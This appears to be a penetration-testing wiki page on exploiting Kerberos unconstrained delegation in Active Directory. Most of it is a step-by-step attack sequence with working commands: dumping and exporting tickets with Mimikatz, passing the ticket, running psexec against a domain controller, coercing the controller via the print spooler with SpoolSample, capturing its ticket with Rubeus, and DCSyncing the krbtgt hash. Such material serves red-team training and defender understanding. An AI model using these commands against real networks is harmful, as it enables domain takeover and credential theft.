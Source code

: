 # Unconstrained Delegation

**How it works**

Unconstrained delegation is a permission that essentially makes a Ticket Granting Ticket (TGT) forwardable along with a session key and TGS. Because the client is authenticating to the service with a forwardable ticket, the service can use that ticket which was meant for the backend service and authenticate to anything

**How to exploit it**

**Mimikatz**

```
privilege::debug
sekurlsa::tickets         # dumps the tickets on the machine
securlsa::tickets /export # dumps tickets to disk
```

Once the ticket you want is saved to disk, use the `ptt` module in mimikatz&#x20;

<figure><img src="../.gitbook/assets/Pasted image 20250103182032.png" alt=""><figcaption></figcaption></figure>

```
kerberos:ptt [0;114fa7]-2-0.....
```

Now you can authenticate as this user

```
psexec.exe \\dc01 cmd
```

**Coercion**

We can coarse the DC to authenticate to use through MS-RPRN You can attempt to access the named pipe with `dir`

```
dir \\dc01\pipe\spoolss
```

if there is output this indicates that the print spooler service is running and accessible

First we can start by using rubeus to monitor for new tickets for the DC computer account

```
rubeus monitor /interval:5 /filteruser:DC01$
```

Next we can coerce the DC by triggering the print spooler change notification. The tool isnt always accurate and you may need to run the tool multiple times.

```
SpoolSample.exe DC01 <comprimised computer>
```

Switching back to rubeus, you should see a new ticket from the DC machine account use rubeus ptt to inject the ticket in memory

```
rubeus ptt /ticket:<base64 ticket>
```

We can then dc sync the DC for any user we wish

```
mimikatz lsadump::dcsync /domain:prod.corp.com /user:prod\krbtgt
```
